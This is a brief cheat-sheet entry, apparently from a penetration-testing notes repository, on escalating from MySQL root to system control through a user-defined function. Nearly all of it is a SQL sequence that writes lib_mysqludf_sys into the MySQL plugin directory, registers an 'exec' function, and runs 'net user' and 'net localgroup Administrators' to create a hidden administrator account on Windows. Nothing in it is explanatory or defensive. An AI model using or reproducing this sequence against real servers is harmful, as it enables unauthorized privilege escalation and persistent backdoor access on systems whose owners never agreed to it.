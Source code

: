 # MYSQL Privesc

mysql Privesc through UDF

[https://www.adampalmer.me/iodigitalsec/2013/08/13/mysql-root-to-system-root-with-udf-for-windows-and-linux/](https://www.adampalmer.me/iodigitalsec/2013/08/13/mysql-root-to-system-root-with-udf-for-windows-and-linux/)

```sql
USE mysql;
CREATE TABLE npn(line blob);
INSERT INTO npn(line) values(load_file('C://wamp//www//PHP//fileManager//users//U1//lib_mysqludf_sys_32.dll'));
SELECT * FROM npn INTO DUMPFILE 'c://wamp//bin//mysql//mysql5.6.17//lib//plugin//lib_mysqludf_sys_32.dll';
CREATE FUNCTION exec RETURNS integer SONAME 'lib_mysqludf_sys_32.dll';
SELECT exec("net user os51670 os51670 /add");
SELECT exec("net localgroup Administrators os51670 /add");
```

